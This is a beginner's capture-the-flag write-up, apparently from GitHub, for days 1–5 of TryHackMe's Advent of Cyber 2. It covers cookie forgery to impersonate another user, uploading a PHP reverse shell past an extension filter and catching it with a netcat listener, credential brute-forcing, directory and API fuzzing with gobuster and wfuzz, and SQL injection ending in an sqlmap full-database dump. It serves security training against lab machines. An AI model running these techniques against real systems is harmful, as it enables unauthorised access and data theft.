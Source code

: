 # Advent of Cyber 2
#### Get started with Cyber Security in 25 Days - Learn the basics by doing a new, beginner friendly security challenge every day leading up to Christmas.
#### [Room Link](1)

## Tasks
<details>
<summary>1. [Day 1] Web Exploitation - A Christmas Crisis</summary>

Welcomeeeee back to the Advent of Cyber! Since the last year hopefully Santa's elfs are better at securing the network!

First off, we see there is information about DNS, HTTP, and cookies making you think that this will likely focus on basics and work up through the days as we perform more challenges and get better with our skills. After deploying the target machine and open up the IP in the web browser we see this screen asking us to register.

 ![Day1Webpage](https://raw.githubusercontent.com/gwagstaff/CTF-Write-Ups/master/TryHackMe/AdventOfCyber2/resources/day1_webpage.png)

We go ahead and register with some credentials and are greeted with this page:

  ![Day1Console](https://raw.githubusercontent.com/gwagstaff/CTF-Write-Ups/master/TryHackMe/AdventOfCyber2/resources/day1_console.png)

Moving into the questions we first have `What is the name of the cookie used for authentication?`.
Seems pretty simple so far! We can find out what cookies were set in Firefox by pressing F12 then selecting the "Storage" tab.
Looking at "Cookies" set for the site we see the cookie is this(you can also view this by using a 3rd party browser extension "Cookie Manger"):

`{
 "cookieManagerVersion": "1.6",
 "userAgent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0",
 "cookies": [
 {
  "name": "auth",
  "value": "7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a226e617068616c227d",
  "domain": "10.10.121.234",
  "hostOnly": true,
  "path": "/",
  "secure": false,
  "httpOnly": false,
  "session": true,
  "storeId": "firefox-default",
  "sameSite": "no_restriction",
  "firstPartyDomain": ""
 }
]
}`  
So we can get our first answer pretty quickly: `auth`.

Looking at the second question: `In what format is the value of this cookie encoded?`
We can see the value is the string `7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a226e617068616c227d` which appears to be encoded. Having previous experience and knowing this is a beginners CTF we can guess that this is a simple encoding algorithm such as Base64, ROT13, or Hex. Throwing the string into [CyberChef](https://gchq.github.io/CyberChef/) we can try the basic encoding which in this case appears to be hex! Looking back at the string we can verify this by seeing that all the characters are within the [a-f] & [1-9] range which are the characters that represent hex values! Therefore we have our second answer `hexadecimal`!

With our newly decoded string:
`{"company":"The Best Festival Company", "username":"naphal"}`

We see the next question asks us this: `Having decoded the cookie, what format is the data stored in?`.

Having previous experience definitely helps again here as I know this is a `JSON` format however some quick  google searches on web data formats (specifically Javascript, one of the main web programming languages ) should point you in the right direction.

  After entering out answer `JSON`, we see the prompt `Figure out how to bypass the authentication.` which means lets get hacking!

  We are given the question `What is the value of Santa's cookie?` which makes us look back at the cookies to see what we can do with it. Up in the section explaining Cookies, it starts with the sentence "HTTP is an inherently stateless protocol." which is a clue about what we have to do.

  Given that HTTP is a stateless protocol, cookies are used throughout the web to save state about what you are doing, if you are logged in an and who you are logged in as. To increase security, even if you have a cookie the webserver will save several things to verify the cookie is the same as the one issued and that you arent changing to values to access things you shouldnt. However, if the web server DOESNT verify that information we might be able to get access to other user's state by changing the cookie values.

  Knowing this is in JSON format and encoded within hexadecimal, all we have to do is change the value in the original cookie to "Santa" then hex encoded it. After getting that new value, we can hope back over to our original cookie and replace the `value` field with our new encoded string.

  `{"company":"The Best Festival Company", "username":"santa"}`
  hex encode to (if you have spaces in CyberChef set the delimiter option to "None"):
  `7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a2273616e7461227d`

After putting value into the correct field in our original cookie, we can refresh the page and see it looks a bit different!

 ![SantaConsole](https://raw.githubusercontent.com/gwagstaff/CTF-Write-Ups/master/TryHackMe/AdventOfCyber2/resources/day_santaconsole.png)

 After firing up all the controls we get our flag!

 This was a good intro and hopefully you learned a few things or brushed up on your skills for the upcoming days!

 See yall on Day 2!
</details>
<details>
<summary>2. [Day 2] Web Exploitation - The Elf Strikes Back!</summary>

Gooooooddd morninngggg TryHackmeeee! Time for Day 2 of the Advent of Cyber 2!

Taking a look at the "dossier" prepared for us we see that GET Parameters, File Uploads, and Reverse Shells are mentioned indicating that we will most likely be focusing on a [File Upload vulnerability](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)!

After launching our machine and opening our THM AttackBox see this blurb:
`For Elf McEager:
You have been assigned an ID number for your audit of the system: [REDACTED] . Use this to gain access to the upload section of the site.Good luck!`


Hmmm, so we will keep that in mind but lets first go to the webpage mentioned for the first question: `What string of text needs adding to the URL to get access to the upload page?`

Well browsing to the webpage we are greeted with this page

![NotSignedIn](https://raw.githubusercontent.com/gwagstaff/CTF-Write-Ups/master/TryHackMe/AdventOfCyber2/resources/day2_notsignedin.png)

Well it does give us the hint `Please enter your ID as a GET parameter (?id=YOUR_ID_HERE)` which calls back the dossier note:

 `We then have the resource that we're selecting -- in this case that is the homepage of the website: index.php. As a side note, all homepages must be called "index" in order to be correctly served by the web server without having to be specified fully. This is how you can go to https://tryhackme.com without having to specify that you want to receive the home page -- the index page is served automatically because you didn't specify!
The final two aspects of the URL are the most important for our current topic: they both relate to GET parameters. First up we have ?snack=. Here ? is used to specify that a GET parameter is forthcoming. We then have the parameter name: snack. This is used to identify the parameter to the server. We then have an equals sign (=), indicating that the value will come next.`

Well first knowing that `index.php` should serve us the same page, we browse to `http://[machineIP]]/index.php` to verify this! We do see the same page! Now that we know we are using `index.php` we should be able to add in our GET parameter which combine our given ID and the string they have on the webpage!

Entering the correct URL we get to this new page!

![protectthefactory](https://raw.githubusercontent.com/gwagstaff/CTF-Write-Ups/master/TryHackMe/AdventOfCyber2/resources/day2_protectthefactory.png)

Now that we have a upload page lets take a look at the source code to get some clues on what we can do! BY entering `viewsource:` before a URL in FireFox lets you easily see the sourcecode of a website OR you can do the same by right-clicking and clicking `View Source`.

Looking at the source code we see this piece of HTML `<input type=file id="chooseFile" accept=".jpeg,.jpg,.png">` which indicates this upload form is looking for file that match the extensions `.jpeg,.jpg,.png` which are image file extensions. However it seems to be looking for only the file extensions and not checking to see if those files are ACUTAL image files.

If that is the case then we may be able to upload that reverse shell that was mentioned in the dossier!

Since we know this is a `index.php` page lets try a common php reverse shell available from [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)!

So after downloading our script we need to edit the options:
`$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS`

to the IP of our host machine and the port our shell listener will be at! After that we can go ahead and make a new copy with our "png" ending with the command `cp php-reverse-shell.php shell.png`

After changing our IPs and file extension, lets go ahead and open up a new terminal and run the command `nc -nvlp 4545` to listen on port 4545 for our reverse shell!

Back on our webpage we go and select our new `shell.jpg` and click the upload button. We get the message `File received successfully!` but nothing seems to happen. Well knowing that this is the upload page we might have to browse to another URL on the host to see the file we uploaded!

Trying first `[machineIP]/images/` but that gives us the same "Enter ID" page. Lets try the URL `machineIP/uploads/` which give us this page with our uploaded `shell.png`!

![uploadsdir](https://raw.githubusercontent.com/gwagstaff/CTF-Write-Ups/master/TryHackMe/AdventOfCyber2/resources/day2_uploadsdir.png)

Let go ahead and click on our "image" file and check the `nc` session! However there doesn't seem to be a session :/ Hmmmm, we seem to get the error `The image [URL] cannot be displayed because it contains errors.` Well it seems that the server may attempt to execute the file so lets change our extension up some more to see if we cant get our php shell to run.

Looking back at the dossier we see this tidbit of info:
    `File Extension Filtering: As the name suggests extension filtering checks the file extension of uploaded files. This is often done by specifying a list of allowed extensions, then checking the uploaded file against the list. If the extension is not in the allowlist, the upload is rejected.
    So, what's the bypass? Well, the answer is that it depends entirely on how the filter is implemented. Many extension filters split a filename at the dot (.) and check what comes after it against the list. This makes it very easy to bypass by uploading a double-barrelled extension (e.g. .jpg.php). The filter splits at the dot(s), then checks what it thinks is the extension against the list. If jpg is an allowed extension then the upload will succeed and our malicious PHP script will be uploaded to the server.`

Well that explains exactly what is going on! Always read the entire folks or end up like me!

Switching up to our new file extension of the same script with the command `cp php-reverse-shell.php shell.jpg.php`, we then upload the new file and execute it with from the `/uploads/` directory!

Looking back at our `nc` we see that we have a shell!

To answer the final question we use the command `cat /var/www/flag.txt` to read out the flag.

Key Takeaways!:
ALWAYS READ THE DOSSIER -  The dossier is helping us out so make sure to read it fully to understand what is going on in the problem!
KISS (Keep it simple stupid)! - Try the basic stuff before thinking advanced! This is a learning CTF!
</details>
<details>
 <summary>3. [Day 3] Web Exploitation - Christmas Chaos</summary>

So from previous days we know that the dossier that is given will lead us on the challenge! In this dossier it explains what default credentials are and how to use BurpSuite to bruteforce a login page.

We go ahead and open up our webpage.

 ![SleighTracker](https://raw.githubusercontent.com/gwagstaff/CTF-Write-Ups/master/TryHackMe/AdventOfCyber2/resources/day3_sleightrackerlogin.png)

Looking at the question `Use BurpSuite to brute force the login form.  Use the following lists for the default credentials:`

| Username | Password |
|----------|----------|
| root     | root     |
| admin    | password |
| user     | 12345    |


Hmmm, so pretty straightforward. It seems like today is focusing on learning Burp a bit better because it could be used heavily in the days to come!

So looking at the dossier, I see that it has the exact instructions for how to perform this dictionary attack. If you think you need a bit more help with Burp to learn it I recommend running through [BurpSuite Room](https://tryhackme.com/room/rpburpsuite) on TryHackMe to get a bit more practice in!

Once performing the brute force we see this page, which scrolling down a bit gives us our flag!

![santamap](https://raw.githubusercontent.com/gwagstaff/CTF-Write-Ups/master/TryHackMe/AdventOfCyber2/resources/day3_santamap.png)

Seeing as this mainly focused on the basics on BurpSuite, we should expect to use it a bit more going forward!

See yall on Day 3!

</details>
<details>
<summary>4. [Day 4] Web Exploitation - Santa's watching </summary>

Day 4! Getting into the Dossier, we see that we get an intro to fuzzing and enumeration using Gobuster and WFuzz.

Here are the main examples I see (and that I have used in the past).

Gobuster:
`gobuster dir -u http://example.com -w /usr/share/wordlist/sample.txt`

with the options to add `-x php,html,txt` to search for those files.
Option information:
dir => search for directories
-u => URL in http/https format
-w => path to wordlist
-x => extension to add onto wordlist


WFuzz:
`wfuzz -c -z file,mywordlist.txt -d “id=FUZZ” -u http://example.com/query.php`

Option information:
-c => colored format
-z file,mywordlist.txt => What and How to replace "FUZZ" [type],[file] (file type, filename)
-d "parameter=FUZZ" => What to FUZZ! FUZZ gets replaced by each string within wordlist.txt
-u http://example.com/query.php => What URL the parameter is added to

Given the above we can craft the first wfuzz query for the answer!

`[REDACTED]`

Perfect!

Now lets go ahead and fire up GoBuster to find our API directory! Using the command

`gobuster dir -u http://[machineIP]/api -w /usr/share/wordlists/dirb/big.txt -x php`

to look for the file under the api directory! We get a single result for 200, which indicates that's our endpoint to bruteforce!

Lets go ahead and fire up wfuzz using the example query above to try and bruteforce this API using our provided wordlist!

First though, lets see what a "bad" request looks like so we know what a successful attempt looks like!

`wfuzz -c -z range,1-10 -u [URLFound/apiendpoint/file]`

Which should give you similar output to
```
********************************************************
* Wfuzz 2.2.9 - The Web Fuzzer                         *
********************************************************

Target: [URLFound/apiendpoint/file]
Total requests: 10

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

000001:  C=200      0 L	       0 W	      0 Ch	  "1"
000002:  C=200      0 L	       0 W	      0 Ch	  "2"
000003:  C=200      0 L	       0 W	      0 Ch	  "3"
000004:  C=200      0 L	       0 W	      0 Ch	  "4"
000005:  C=200      0 L	       0 W	      0 Ch	  "5"
000006:  C=200      0 L	       0 W	      0 Ch	  "6"
000007:  C=200      0 L	       0 W	      0 Ch	  "7"
000009:  C=200      0 L	       0 W	      0 Ch	  "9"
000008:  C=200      0 L	       0 W	      0 Ch	  "8"
000010:  C=200      0 L	       0 W	      0 Ch	  "10"

Total time: 0.079469
Processed Requests: 10
Filtered Requests: 0
Requests/sec.: 125.8337
```
So we see that when there are no results the page is empty, so lets filter out empty results with the command line argument `--hl 0`

Once setting up the wfuzz query (HINT: VERY CLOSE to answer 2) we add `--hl 0` to the end which will only give us the valid page!

Once that finishes, go ahead and manually go to that page on your browser and grab the flag!

</details>

<details>
<summary>5.  [Day 5] Web Exploitation - Someone stole Santa's gift list! </summary>

Looking into Day 5 we can see there is a bit here and definitely gets complicated if this is the first time you have ever even looked at SQL! So lets break down the important things here:

SQL: This is a database programming language which lets you interact with databases to insert, change, delete, view and so much more! The [site provided](https://www.codecademy.com/articles/sql-commands) is a great resource for absolute beginners to learn the basic however these basic commands and definitions should be fine for now.

Terms:
table =  basic "database"; hold data in rows and columns
statement = actions you perform on the database (any action you do not just the modifications)


SELECT: how to select DATA from table
FROM: select WHICH table you want to pull data from
WHERE: Specify WHAT data you want from table
UNION: Combine two (or more) different SELECT results (think Venn Diagram and each circle is a SELECT statement)

Additional, it gives us `1=1 == True` (which means the inverse `1=0 == False`) which gives us a way to put true or false within our SQL statements.

SQLi Attacks:

We know from day 2 & 4 you can abuse PHP parameters to bruteforce and access things you arent suppose to be able to access. Well SQLi attacks go a step beyond and attempts to abuse the CODE behind the parameters we bruteforced before. The dossier given explains it better than I ever could in short write-up so I recommend reading that and referencing the [THM Room: SQLi Basics] (https://tryhackme.com/room/sqlibasics) to get more practice! If you are still confused hop on over to [JHDiscord](2) or [THM Discord](3) to get additional help!

Getting into the questions we can see we first have to access `[machineIP]:8000`and see that we have a basic "Santa's Official Forum"  as pictured here

![santaforum](./day5_santaforum.png)

So first we have the question:
`Without using directory brute forcing, what's Santa's secret login panel?`

Alright, so no gobuster or dirbuster here just some good old fashion guessing! We know from the THM flag length hint that it will be 10 characters long so lets try some strings like `santa` + `login` or `santa` + `forum` that could fit the format. After guessing a bit we are able to get the correct login! (Hint: the words are in the question).

Okay cool we have a login page so now what?

`Visit Santa's secret login panel and bypass the login using SQLi`

So using some of the basic SQLi attacks given we are able to bypass the `password` field and get into Santa's database!

![santasdatabase](./day5_santadatabase.png)

Hmmmm, so we have a search bar and just below that a table that list the gift and child with only `null` as data. So going back to our dossier we know that SQL Union attacks are one of the fastest ways to enumerate through a database! Trying the basic query that is given in the dossier `' ORDER BY 1--` gives us all of our table listing out the Gift and Child!

![santadbuniondump](./day5_dbuniondump.png)

Hmmm, so now that we have the database we need to get the flag and the admin's password. The one problem with SQLi is that you are kinda flying blind unless you know exactly how the underlying program is processing the SQL statement you are attemping to send in. Luckily we have a tool that can make this easy for us!


SQLMap is a great tool that will you to dump databases and other great information automatically with pretty little information. The dossier gives great instructions on how to run SQLMap and Burp to go ahead and start running! (Remember the dossier contains information about which database and )

Using the command `sqlmap -r Desktop/request.sqli --tamper=space2comment --dbms sqlite --dump-all` we are able to dump the Flag and Admin password!

</details>

## Review

For links:
[1]: https://tryhackme.com/room/adventofcyber2
[2]: http://johnhammond.org:8080/discord
[3]: discord.gg/tryhackme
[4]:
[5]:
